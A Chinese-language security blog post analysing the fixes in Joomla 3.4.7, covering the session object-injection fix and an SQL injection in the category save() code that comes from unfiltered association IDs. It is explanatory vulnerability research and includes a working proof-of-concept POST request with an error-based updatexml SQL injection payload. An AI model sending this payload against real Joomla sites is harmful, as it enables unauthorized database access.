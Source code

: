```yaml
---
title: Joomla 3.4.7 修复的反序列化与SQL注入
date: 2015-10-20 08:08:11
category:
  - 网络安全
tag:
  - web安全
  - SQL注入
  - 反序列化
order: 10000
---
```


## 反序列化漏洞修复分析

前一阵子 Joomla 的对象注入很火，而官方3.4.6的修复仅仅是严格过滤了X_FORWARDED_FOR、注释了USER_AGENT存入SESSION那一句，见[这里](https://github.com/joomla/joomla-cms/commit/995db72ff4eaa544e38b4da3630b7a1ac0146264#diff-aba80b5850bf0435954b29dece250cbfL1021),这样只是指哪补哪，治标不治本。看来官方上次的修复只是临时解决方案，这次的更新(3.4.7)算是彻底解决了此问题。

上次的对象注入，需要满足三个条件：

1. 自己实现session的处理方式，重新实现了 session 存储的read()和write()方法，但是并没有对 session 的值进行安全处理。
2. Mysql非strict mode下，使用utf8mb4字符 `\xF0\x9D\x8C\x86` 来截断。
3. PHP <= 5.6.13 session中反序列化解析的BUG。

Joomla 官方也只能解决第一个，也就是改进session的处理方式。这次更新，在 libraries/cms/version/version.php 中，将SESSION存储在内部的Registry类对象中，弃用了以前使用 $_SESSION[$namespace][$name] 的方式：

```php
$this->data = new \Joomla\Registry\Registry;
```

并且，在写SESSION的时候会先做base64_encode：

```php
public function close(){
	if ($this->_state !== 'active'){
		// @TODO :: generated error here
		return false;
	}
	$session = JFactory::getSession();
	$data    = $session->getData();

	// Before storing it, let's serialize and encode the JRegistry object
	$_SESSION['joomla'] = base64_encode(serialize($data));

	session_write_close();
	return true;
}
```

这样，$_SESSION 就只剩下了$_SESSION[‘joomla’]，而且$_SESSION[‘joomla’] 只存储了Registry的对象$data，在执行read()和write()时候，SESSION是经过base64_encode后的数据，就不会存在read()之后自动反序列化而导致对象注入了。

在反序列化的时候也不存在unserialize参数可控的情况。（可控的只是$data的成员变量）

```php
if (isset($_SESSION['joomla']) && !empty($_SESSION['joomla'])){
    $data = $_SESSION['joomla'];
    $data = base64_decode($data);
    $this->data = unserialize($data);
}
```

Joomla官方这次的解决方案比较好，不像上次那样治标不治本，这样的态度值得称赞。反观Apache对struts2 漏洞的修复…就不说了。

## SQL注入漏洞分析

### 漏洞分析

代码位于，administrator/components/com_categories/models/category.php，save()函数内：

```php
$assoc = $this->getAssoc();

if ($assoc)
{
	// Adding self to the association
	$associations = $data['associations'];

	foreach ($associations as $tag => $id)
	{
		if (empty($id))
		{
			unset($associations[$tag]);
		}
	}

	// Detecting all item menus
	$all_language = $table->language == '*';

	if ($all_language && !empty($associations))
	{
		JError::raiseNotice(403, JText::_('COM_CATEGORIES_ERROR_ALL_LANGUAGE_ASSOCIATED'));
	}

	$associations[$table->language] = $table->id;

	// Deleting old association for these items
	$db = $this->getDbo();
	$query = $db->getQuery(true)
		->delete('#__associations')
		->where($db->quoteName('context') . ' = ' . $db->quote($this->associationsContext))
		->where($db->quoteName('id') . ' IN (' . implode(',', $associations) . ')');
	$db->setQuery($query);
	$db->execute();

	if ($error = $db->getErrorMsg())
	{
		$this->setError($error);

		return false;
	}

	if (!$all_language && count($associations))
	{
		// Adding new association for these items
		$key = md5(json_encode($associations));
		$query->clear()
			->insert('#__associations');

		foreach ($associations as $id)
		{
			$query->values($id . ',' . $db->quote($this->associationsContext) . ',' . $db->quote($key));
		}

		$db->setQuery($query);
		$db->execute();

		if ($error = $db->getErrorMsg())
		{
			$this->setError($error);

			return false;
		}
	}
}
```

其中的 $associations 未经过适当处理、我们跟着流程来看看。

首先，`$assoc = $this->getAssoc();` 为 True 的时候整个逻辑才能进来，这个`getAssoc()`是什么呢？跟进getAssoc()的实现(文件的 1234 行)，发现关键是在：

```php
$assoc = JLanguageAssociations::isEnabled();
```

搜索一下，发现 JLanguageAssociations 是 Joomla 的一个多语言插件 [http://www.slideshare.net/erictiggeler/creating-a-multilingual-site-in-joomla-joomla-3-beginners-guide-eric-tiggeler](http://www.slideshare.net/erictiggeler/creating-a-multilingual-site-in-joomla-joomla-3-beginners-guide-eric-tiggeler), 这个插件是 Joomla 自带的，默认没有开启，我们在后台将他开启。

然后，继续看代码，`$associations = $data['associations'];`, $data是post过来的数据，$associations没有经过过滤就传到了：

```php
$query = $db->getQuery(true)
				->delete('#__associations')
				->where($db->quoteName('context') . ' = ' . $db->quote($this->associationsContext))
				->where($db->quoteName('id') . ' IN (' . implode(',', $associations) . ')');
```

导致SQL注入。

那 Joomla 有没有全局过滤呢？我们看看 Joomla 是如何处理POST数据的。

在 libraries/legacy/controller/form.php , save() 函数，

```php
public function save($key = null, $urlVar = null){
    ...
    $data  = $this->input->post->get('jform', array(), 'array');
    ...
    $validData = $model->validate($form, $data);
```

validate() 函数在 libraries/legacy/model/form.php 302行, 他又调用了libraries/joomla/form/form.php 的filter() 函数，具体实现就不继续了，总之这里的POST参数只是处理了 ‘ XSS and specified bad code. ‘。

最后，构造POC。在修改分类，保存的时候，修改POST数据:

```php
POST /Joomla/administrator/index.php?option=com_categories&extension=com_content&layout=edit&id=19

jform[title]=Joomla!&jform[alias]=joomla&jform[description]=&jform[parent_id]=14&jform[published]=1&jform[access]=1&jform[language]=*&jform[note]=&jform[version_note]=&jform[created_time]=2011-01-01+00:00:01&jform[created_user_id]=945&jform[modified_time]=2015-12-23+08:09:46&jform[modified_user_id]=945&jform[hits]=0&jform[id]=19&jform[metadesc]=&jform[metakey]=&jform[metadata][author]=&jform[metadata][robots]=&jform[associations][en-GB]=2) or updatexml(1,concat(0x7e,(version())),0) -- -&jform[rules][core.create][1]=&jform[rules][core.delete][1]=&jform[rules][core.edit][1]=&jform[rules][core.edit.state][1]=&jform[rules][core.edit.own][1]=&jform[rules][core.create][13]=&jform[rules][core.delete][13]=&jform[rules][core.edit][13]=&jform[rules][core.edit.state][13]=&jform[rules][core.edit.own][13]=&jform[rules][core.create][6]=&jform[rules][core.delete][6]=&jform[rules][core.edit][6]=&jform[rules][core.edit.state][6]=&jform[rules][core.edit.own][6]=&jform[rules][core.create][7]=&jform[rules][core.delete][7]=&jform[rules][core.edit][7]=&jform[rules][core.edit.state][7]=&jform[rules][core.edit.own][7]=&jform[rules][core.create][2]=&jform[rules][core.delete][2]=&jform[rules][core.edit][2]=&jform[rules][core.edit.state][2]=&jform[rules][core.edit.own][2]=&jform[rules][core.create][3]=&jform[rules][core.delete][3]=&jform[rules][core.edit][3]=&jform[rules][core.edit.state][3]=&jform[rules][core.edit.own][3]=&jform[rules][core.create][4]=&jform[rules][core.delete][4]=&jform[rules][core.edit][4]=&jform[rules][core.edit.state][4]=&jform[rules][core.edit.own][4]=&jform[rules][core.create][5]=&jform[rules][core.delete][5]=&jform[rules][core.edit][5]=&jform[rules][core.edit.state][5]=&jform[rules][core.edit.own][5]=&jform[rules][core.create][10]=0&jform[rules][core.delete][10]=&jform[rules][core.edit][10]=&jform[rules][core.edit.state][10]=&jform[rules][core.edit.own][10]=&jform[rules][core.create][12]=0&jform[rules][core.delete][12]=&jform[rules][core.edit][12]=&jform[rules][core.edit.state][12]=&jform[rules][core.edit.own][12]=&jform[rules][core.create][8]=&jform[rules][core.delete][8]=&jform[rules][core.edit][8]=&jform[rules][core.edit.state][8]=&jform[rules][core.edit.own][8]=&jform[params][category_layout]=&jform[params][image]=&jform[params][image_alt]=&jform[extension]=com_content&task=category.apply&2ebbc80d46dda42570c1b1699a58323d=1
```

jform[associations][en-GB] 这个参数就是 $associations，成功注入。

![Jommla](https://cdn.jsdelivr.net/gh/MarsAuthority/sec_pic@master/uPic/2023-02/dWuY7g.jpg)

> 这里打一波广告，我们的Skywolf是可以轻松检测出来的，如下图

![Skywolf](https://cdn.jsdelivr.net/gh/MarsAuthority/sec_pic@master/uPic/2023-02/vwJyVt.jpg)

另外，`libraries/legacy/model/admin.php` 这里也存在着同样的问题。

### 修复方案

官方增加了：

```php
...
$associations = Joomla\Utilities\ArrayHelper::toInteger($associations);
...
$query->values(((int) $id) . ',' . $db->quote($this->associationsContext) . ',' . $db->quote($key));
...
```

将 $associations 中的所有值转换为int型。还有将 $id 强制转换为int。

## 参考资料

1. [http://drops.wooyun.org/papers/11330](http://drops.wooyun.org/papers/11330)
2. [http://drops.wooyun.org/papers/11371](http://drops.wooyun.org/papers/11371)
3. [http://bobao.360.cn/learning/detail/2501.html](http://bobao.360.cn/learning/detail/2501.html)
4. [https://github.com/joomla/joomla-cms/commit/2cd4ef682f0cab6ff03200b79007a25f19c6690e](https://github.com/joomla/joomla-cms/commit/2cd4ef682f0cab6ff03200b79007a25f19c6690e)
5. [https://www.joomla.org/announcements/release-news/5643-joomla-3-4-7.html](https://www.joomla.org/announcements/release-news/5643-joomla-3-4-7.html)